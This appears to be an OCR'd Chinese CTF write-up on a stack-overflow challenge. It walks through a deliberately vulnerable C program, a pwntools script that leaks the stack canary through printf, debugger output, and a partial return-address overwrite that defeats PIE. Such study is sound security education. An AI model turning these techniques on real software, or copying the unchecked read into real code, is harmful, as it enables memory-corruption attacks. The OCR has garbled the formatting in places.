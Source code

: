 #include <unistd.h>#include <stdlib.h>void flag(){ system("cat flag");}void vuln(){ char buf[40]; puts("Input your Name:"); read(0, buf, 0x30); printf("Hello %s:\n", buf); read(0, buf, 0x60); }int main(int argc, char const *argv[]){ vuln(); return 0;} 
pwn@pwn-PC:~/Desktop$ gcc -fpie -pie -fstack-protector -o test-pie partial.cpwn@pwn-PC:~/Desktop$ checksec test-pie [*] '/home/pwn/Desktop/test-pie' Arch: amd64-64-little RELRO: Partial RELRO Stack: Canary found NX: NX enabled PIE: PIE enabled 
 
 ```java 
  此题目所有保护都开着，首先发现有canary，就想着使用stack smash泄漏flag函数的地址，然后此地址作为第二次read的ret_addr地址进行执行，但是只有第二次read操作存在栈溢出，而且溢出的距离无法到达到覆盖__libc_argv[0]的距离，假设即便能覆盖，在PIE的情况下也很难确定.text的地址，因此本题使用partial overwrite的方法进行利用。
可以发现两次read操作，只有第二次read操作存在栈溢出，但是又有canary，很难利用第二次的栈溢出，那么怎么去解决？
首先需要获取canary的值， 因为read函数并不会给输入的末尾加上 \x00 字符，而且printf 使用 %s 时, 遇到 \x00 字符才会结束输出，因此只需要把canary末尾字符覆盖成非 \x00 字符就可以利用printf("Hello %s:\n", buf)输出canary，然后再利用partial overwrite覆盖ret_addr控制程序的指令流，步骤如下：
泄漏canary值



  ``` 
  
from pwn import *context.arch = 'amd64'context.log_level = 'debug'context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']offset = 0x28p = process('./test-pie')p.recvuntil("Name:\n")payload='a' * offset gdb.attach(p)p.sendline(payload) p.recvuntil('a' * offset)p.recv(1)canary = u64('\0' + p.recvn(7))print hex(canary) 
pwn@pwn-PC:~/Desktop$ python exp.py [+] Starting local process './test-pie': pid 28293[DEBUG] Received 0x11 bytes: 'Input your Name:\n'[DEBUG] Wrote gdb script to '/tmp/pwnozkM_1.gdb' file "./test-pie"[*] running in new terminal: /usr/bin/gdb -q "./test-pie" 28293 -x "/tmp/pwnozkM_1.gdb"[DEBUG] Launching a new terminal: ['/usr/bin/deepin-terminal', '-x', 'sh', '-c', '/usr/bin/gdb -q "./test-pie" 28293 -x "/tmp/pwnozkM_1.gdb"'][+] Waiting for debugger: Done[DEBUG] Sent 0x29 bytes: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'[DEBUG] Received 0x2f bytes: 'Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'[DEBUG] Received 0xf bytes: 00000000 77 05 28 c0 f3 64 57 20 69 4e d8 fc 7f 3a 0a │w·(·│·dW │iN··│·:·│ 0000000f0x5764f3c028057700 
 
 ```java 
  可以看到，sent了0x29个字符，因为buf的栈地址到canary值的地址的相距0x28个字符，再加上覆盖的canary的末尾字符总共0x29个字符，栈中覆盖情况如下：



  ``` 
  
read(0, buf, 0x30)函数执行完成后：───────────────────────────────────[ STACK ]─────────────────────────────────────────00:0000│ rax r8 rsp 0x7ffcd84e68d0 ◂— 0x6161616161616161 ('aaaaaaaa')... ↓05:0028│ 0x7ffcd84e68f8 ◂— 0x5764f3c02805770a06:0030│ rbp 0x7ffcd84e6900 —▸ 0x7ffcd84e6920 —▸ 0x55a96ce218b0 ◂— push r1507:0038│ 0x7ffcd84e6908 —▸ 0x55a96ce2189a ◂— mov eax, 0───────────────────────────────────────────��─────────────────────────────────────pwndbg> x /18gx 0x7fff426083d00x7ffcd84e68d0: 0x6161616161616161 0x61616161616161610x7ffcd84e63e0: 0x6161616161616161 0x61616161616161610x7ffcd84e63f0: 0x6161616161616161 0x5764f3c02805770a 
 
 ```java 
  覆盖ret_addr控制程序的指令流
首先找到flag的地址，最后一个半字节为0x7f0，由于内存是按页夹在的 0x1000为一页，因此每次加载这三位是���会变的，那么在payload中发送的时候(按字节发送，发送4位)，第四位随便填写一个即可，每次对随机加载后的flag函数起始地址进行碰撞，因为范围在0x0 -0xf，所以碰撞成功的几率挺大的。



  ``` 
  